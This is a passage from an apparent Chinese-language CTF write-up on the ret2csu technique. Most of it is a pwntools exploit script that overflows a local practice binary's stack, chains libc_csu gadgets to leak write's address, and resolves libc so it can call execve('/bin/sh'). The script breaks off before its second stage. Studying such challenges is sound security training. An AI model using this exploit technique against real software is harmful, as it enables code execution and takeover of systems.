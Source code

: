     

*   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。
    
    [![](assets/1701606411-fbc23d546ebbb9c7569bd2f47ce623dc.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129204004-6bdb416c-8eb4-1.jpg)
    

脚本：

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2csu')
e = ELF('./ret2csu')
context.log_level = 'debug'

gatget1_addr = 0x000000000040061A
gatget2_addr = 0x0000000000400600
main_got_addr = e.symbols['main']
write_got_addr = e.got['write']
read_got_addr = e.got['read']
bss_addr = e.bss()

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
    payload = 'A'*136
    payload += p64(gatget1_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(gatget2_addr)
    payload += 'A'*56
    payload += p64(main_addr)
    p.send(payload)
    sleep(1)

#第一次发送payload，获取write函数的真实地址
p.recvuntil('Hello, World\n')
csu(0,1,write_got_addr,8,write_got_addr,1,main_got_addr)      
write_rel_addr = u64(p.recv(8))
print hex(write_rel_addr)
libc = LibcSearcher('write',write_rel_addr)
libc_base = write_rel_addr-libc.dump('write')
system_addr = libc_base+libc.dump('execve')                    #从system更换成execve

#第二次发送payload，将system函数地址和字符串/bin/sh写入bss段
```